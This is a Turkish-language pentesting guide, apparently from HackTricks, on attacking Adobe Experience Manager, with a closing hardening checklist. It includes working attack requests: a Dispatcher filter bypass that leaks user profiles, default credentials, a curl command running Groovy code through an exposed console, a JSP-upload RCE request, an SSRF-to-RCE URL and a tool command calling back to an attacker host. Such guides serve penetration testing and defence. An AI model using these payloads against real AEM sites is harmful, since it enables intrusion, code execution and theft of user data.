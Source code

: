 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud'ın bir parçası) Apache Sling/Felix (OSGi) ve bir Java İçerik Deposu (JCR) üzerinde çalışan bir kurumsal CMS'dir.
> Bir saldırgan perspektifinden AEM örnekleri genellikle tehlikeli geliştirme uç noktalarını, zayıf Dispatcher kurallarını, varsayılan kimlik bilgilerini ve her çeyrekte yamanan uzun bir CVE listesini açığa çıkarır.

Aşağıdaki kontrol listesi, gerçek etkileşimlerde (2022-2025) sürekli olarak ortaya çıkan **dışarıdan erişilebilir (kimlik doğrulamasız) saldırı yüzeyine** odaklanmaktadır.

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Diğer hızlı göstergeler:
* `/etc.clientlibs/` statik yolu mevcut (JS/CSS döner).
* `/libs/granite/core/content/login.html` “Adobe Experience Manager” afişi ile giriş sayfası.
* `</script><!--/* CQ */-->` HTML'nin altında yorum.

---

## 2. Yüksek değerli kimlik doğrulamasız uç noktalar

Path | Ne elde edersiniz | Notlar
---- | ------------- | -----
`/.json`, `/.1.json` | JCR düğümleri aracılığıyla **DefaultGetServlet** | Genellikle engellenir, ancak *Dispatcher bypass* (aşağıya bakın) çalışır.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Sayfa ağacı, iç yollar, kullanıcı adlarının sızıntısı.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix konsolu | Varsayılan olarak 403; eğer açığa çıkmışsa ve kimlik bilgileri bulunursa ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Paket Yöneticisi | Kimlik doğrulamalı içerik paketlerine izin verir → JSP yükleme.
`/etc/groovyconsole/**` | AEM Groovy Konsolu | Eğer açığa çıkmışsa → keyfi Groovy / Java yürütme.
`/libs/cq/AuditlogSearchServlet.json` | Denetim günlükleri | Bilgi ifşası.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dökümü | XSS vektörü.

### Dispatcher bypass hilesi
Çoğu üretim sitesi *Dispatcher* (ters proxy) arkasında yer alır. Filtre kuralları, izin verilen bir statik uzantıyı **bir noktalı virgülden veya kodlanmış yeni satırdan sonra ekleyerek** atlatılabilir:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Tek bir istek yukarıda sıklıkla kullanıcı profil düğümlerini e-posta adresleriyle açığa çıkarır. P-T Partners bu zayıflık hakkında iyi bir rehber yayınladı. 【】

---

## 3. Yaygın yanlış yapılandırmalar (2025'te hala mevcut)

1. **Anonim POST servlet** – `POST /.json` ile `:operation=import` yeni JCR düğümleri oluşturmanıza izin verir. Dispatcher'da `*.json` POST'u engellemek bunu düzeltir. 【】
2. **Herkese açık kullanıcı profilleri** – varsayılan ACL, `/home/users/**/profile/*` üzerinde `jcr:read` iznini herkese verir.
3. **Varsayılan kimlik bilgileri** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** etkin ⇒ `?debug=layout` üzerinden yansıtılan XSS (CVE-2016-7882, hala eski 6.4 kurulumlarında bulunuyor).
5. **Groovy Konsolu açığa çıktı** – bir Groovy betiği göndererek uzaktan kod yürütme:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Son zamanlardaki güvenlik açıkları (hizmet paketi döngüsü)

Çeyrek | CVE | Etkilenen | Etki
------- | --- | -------- | ------
Aralık 2024 | **CVE-2024-43711** | 6.5.21 ve öncesi | Yanlış giriş doğrulaması → **Rastgele kod yürütme** (düşük ayrıcalıklı kimlik doğrulama gerektirir). 【】
Aralık 2024 | CVE-2024-43724/26 | 6.5.21 ve öncesi | DOM / Saklanan XSS Move Page Wizard'da. 【】
Aralık 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | Özel URL aracılığıyla DOM tabanlı XSS. 【】
Aralık 2022 | CVE-2022-30683 | ≤ 6.5.13 | Kripto tasarım hatası → gizli şifre çözme (düşük ayrıcalıklı kimlik bilgileri gerektirir). 【】

Her zaman müşterinin hizmet paketiyle eşleşen *APSB* bültenini kontrol edin ve en son **6.5.22** veya *Cloud Service 2024.11* talep edin.

---

## 5. Sömürü parçaları

### 5.1 Dispatcher atlatma + JSP yükleme ile RCE
Eğer anonim yazma mümkünse:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Şimdi `/content/evil.jsp` isteği yapın – JSP, AEM işlem kullanıcısı ile çalışır.

### 5.2 SSRF'den RCE'ye (tarihi < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
**aem-hacker**'dan `aem_ssrf2rce.py` tam zinciri otomatikleştirir. 【】

---

## 6. Araçlar

* **aem-hacker** – İsviçre çakısı benzeri sayım scripti, dispatcher bypass, SSRF tespiti, varsayılan kimlik bilgileri kontrolleri ve daha fazlasını destekler.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **İçerik Brute-force** – gizli bileşenleri keşfetmek için `/_jcr_content.(json|html)` isteğini yinelemeli olarak yapın.
* **osgi-infect** – kimlik bilgileri mevcutsa `/system/console/bundles` üzerinden kötü niyetli OSGi paketi yükleyin.

---

## 7. Güçlendirme kontrol listesi (raporunuzun önerileri için)

1. Örneği **en son toplu hizmet paketinde** tutun (Temmuz 2025 itibarıyla: 6.5.22).
2. Varsayılan hesapları kaldırın/değiştirin; SSO/SAML'yi zorlayın.
3. **Dispatcher filtrelerini** sıkılaştırın – anonim kullanıcılar için `;`, kodlanmış yeni satırlar ve `*.json` veya `*.querybuilder.json`'ı reddedin.
4. Konsolları (`/system/console`, `/crx/*`, `/etc/groovyconsole`) IP izin listeleri ile devre dışı bırakın veya koruyun.
5. Adobe tarafından gönderilen *Anonim İzin Güçlendirme* paketini uygulayın.

## Referanslar

* Adobe Güvenlik Bülteni APSB24-69 – “Adobe Experience Manager için güvenlik güncellemeleri (Aralık 2024)”.
* 0ang3el – aem-hacker aracı (GitHub).
{{#include ../../banners/hacktricks-training.md}}
